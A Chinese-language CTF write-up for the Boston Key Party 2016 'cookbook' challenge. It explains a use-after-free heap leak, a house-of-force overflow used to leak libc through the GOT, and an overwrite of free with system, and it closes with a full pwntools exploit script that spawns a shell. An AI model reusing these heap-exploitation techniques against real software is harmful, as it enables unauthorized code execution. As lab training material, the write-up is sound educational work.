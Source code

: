 ```yaml
---
title: boston key party 2016 cookbook
categories:
  - pwn
tags: house-of-force
published: true
---
```


# Introduction

知识点：

[house_of_force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c)


**[cookbook](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/cookbook-6)**

./cookbook: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter
/lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2397d3d3c3b98131022ddd98f30e702bd4b88230, stripped

{% highlight bash %}

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

{% endhighlight %}

对程序进行过逆向分析后发现在函数 `0x8049092` 处有 `0x8c` 字节的堆溢出，也就是 create recipe 子菜单中的 `g` 或
`i` 命令。

# Leak Heap

我的思路分为三步，要想实施 house of force 攻击，必须知道 top chunk 地址，也就是要 leak 堆地址，在分析的过程中
发现在程序的 create recipe 功能中有一处 uaf，利用这个 uaf 我们可以泄露堆地址。

```
p.sendline("c")
p.sendline("n") # calloc 0x40c 大小的 chunk
p.sendline("a") # 添加一些 chunk 作为 “隔层”
p.sendline("water")
p.sendline("0x1")
p.sendline("d") # 将 large chunk 释放掉，其 fd 和 bk 会指向 top chunk
p.sendline("p") # 触发 uaf，泄露 top chunk 地址
```

# Leak Libc

接下来就要实施 house of force 来完成后续的地址读取和写入，使用 house of force 我们可以改写程序 bss 段的变量，
像是存放 chef's name 指针的 `0x804d0ac` 处，将其改写为 got 表地址即可泄露 libc。

```
p.sendline("g")
p.recvuntil("hacker!) :")
p.sendline(hex(0x20))
payload = p32(free_got-0x8c)    # 此处为写 system 做准备
payload += p32(0)*2
payload += p32(calloc_got)  # 泄露 calloc_got 表地址
p.sendline(payload)

p.recvuntil("[q]uit\n")
p.sendline("r") # 打印 cookbook 信息
```

# Exploit

老套路，写 free 为 system。

**[exp](https://github.com/0x3f97/pwn/blob/master/boston-key-party-2016/cookbook-6/exp.py)**:

```
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./cookbook"

recipe_addr = 0x804d0a0
calloc_got = 0x804d048
free_got = 0x804d018
calloc_off = 0x71810
system_off = 0x3ada0

p = process(elf)

p.recvline("what's your name?")
p.sendline("test")

p.recvuntil("[q]uit\n")

# leak heap

p.sendline("c")
p.sendline("n")
p.sendline("a")
p.sendline("water")
p.sendline("0x1")
p.sendline("d")
p.sendline("p")

p.recvuntil("recipe type: (null)\n\n")
top_chunk_addr =  int(p.recv(9))
heap_base = top_chunk_addr - 0x16d8
log.info("top_chunk_addr: "+hex(top_chunk_addr))
log.info("heap_base: "+hex(heap_base))

# leak libc
p.sendline("n")
p.sendline("g")
payload = p8(0)*0x3a0
payload += p32(0xffffffff)
p.sendline(payload)

off_size = recipe_addr - (top_chunk_addr + 0x4) - (2 * 0x4)

p.sendline("q")
p.sendline("g")
p.recvuntil("hacker!) :")
p.sendline(hex(off_size))
p.sendline()

p.sendline("g")
p.recvuntil("hacker!) :")
p.sendline(hex(0x20))
payload = p32(free_got-0x8c)
payload += p32(0)*2
payload += p32(calloc_got)
p.sendline(payload)

p.recvuntil("[q]uit\n")
p.sendline("r")
libc_base = u32(p.recv(4))-calloc_off
log.info("libc_base: "+hex(libc_base))

# write system

p.recvuntil("[q]uit\n")
p.sendline("c")
p.sendline("g")

system_addr = libc_base+system_off
p.sendline(p32(system_addr))

#gdb.attach(p)
p.recvuntil("[q]uit\n")
p.sendline("q")
p.sendline("g")
p.sendline(hex(0x10))
p.sendline("/bin/sh")
p.recvuntil("[q]uit\n")
p.sendline("q")

p.interactive()
```
